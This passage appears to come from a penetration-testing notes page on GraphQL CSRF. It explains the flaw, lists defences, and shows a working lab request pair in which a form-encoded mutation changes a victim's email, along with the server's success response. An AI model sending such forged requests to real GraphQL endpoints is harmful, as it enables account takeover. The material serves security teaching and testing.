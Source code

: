 ```http
    "ltigger": {
      "token": "bQdyn36vx6O9tryHxdC2Srrr2DdSpW27",
      "success": false
    }
    ...
```

## GraphQL CSRF

GraphQL can be used as a vector for [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF)) attacks, whereby an attacker creates an exploit that causes a victim's browser to send a malicious query as the victim user. These vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented.

To defend against GraphQL CSRF vulnerabilities, ensure the following:
- Your GraphQL API only accepts queries over JSON-encoded POST.
- The API validates that content provided matches the supplied content type.
- The API has a secure CSRF token mechanism.

Original request:
```http
POST /graphql/v1 HTTP/1.1
Host: 0a9000830411fa9880e73aad007700b4.web-security-academy.net
Cookie: session=vYMakj2BmHy3jKygMbFzu1rfwy6MeaBo;

{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"asd@asd.com"}}}
```

Vulnerable request:
```http
POST /graphql/v1 HTTP/1.1
Host: 0a9000830411fa9880e73aad007700b4.web-security-academy.net
Cookie: session=vYMakj2BmHy3jKygMbFzu1rfwy6MeaBo; session=vYMakj2BmHy3jKygMbFzu1rfwy6MeaBo
Content-Length: 121
Content-Type: application/x-www-form-urlencoded

Connection: close

query=mutation+%7B%0A%09changeEmail%28input%3A%7Bemail%3A+%220xbro.hack@done.it%22%7D%29+%7B%0A%09%09email%0A%09%7D%0A%7D


HTTP/1.1 200 OK
{
  "data": {
    "changeEmail": {
      "email": "0xbro.hack@done.it"
    }
  }
}
```
